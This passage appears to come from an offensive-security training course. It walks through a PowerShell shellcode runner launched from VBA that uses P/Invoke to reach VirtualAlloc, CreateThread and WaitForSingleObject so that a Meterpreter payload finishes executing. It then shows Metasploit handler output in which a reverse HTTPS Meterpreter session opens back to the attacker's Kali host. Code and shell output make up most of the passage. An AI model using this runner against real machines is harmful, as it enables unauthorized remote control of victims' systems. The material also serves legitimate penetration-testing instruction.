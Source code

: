 To solve this, we must instruct PowerShell to delay termination until our shell fully executes. We'll use the Win32 [*WaitSingleObject* API](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) to pause the script and allow Meterpreter to execute.

We'll update our shellcode runner PowerShell script to import *WaitForSingleObject* using P/Invoke and *Add-Type* and invoke it as shown in these highlighted sections:

```fence
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
        uint flAllocationType, uint flProtect);
        
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
            uint dwCreationFlags, IntPtr lpThreadId);
            
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
        UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32
...

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

> Listing 41 - Importing WaitSingleObject and calling it to stop PowerShell from terminating

Let's discuss this addition. When *CreateThread* is called, it returns a handle to the newly-created thread. We provided this handle to *WaitForSingleObject* along with the time to wait for that thread to finish. In this case, we have specified 0xFFFFFFFF, which will instruct the program to wait forever or until we exit our shell. Notice that we have explicitly performed a type cast on this value to an unsigned integer with the *\[uint32\]* static .NET type because PowerShell only uses signed integers.

We again used *Here-Strings* to assign a block of text to the *$Kernel32* variable. Inside our class, we imported three Windows APIs. We then used *Add-Type* to compile the public *Kernel32* class that we invoked when using the APIs. This addition should halt the premature termination of PowerShell.

We can now update the PowerShell shellcode runner hosted on our Kali Linux web server and rerun the VBA code. This should result in a reverse Meterpreter shell. Very nice!

```fence
[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```
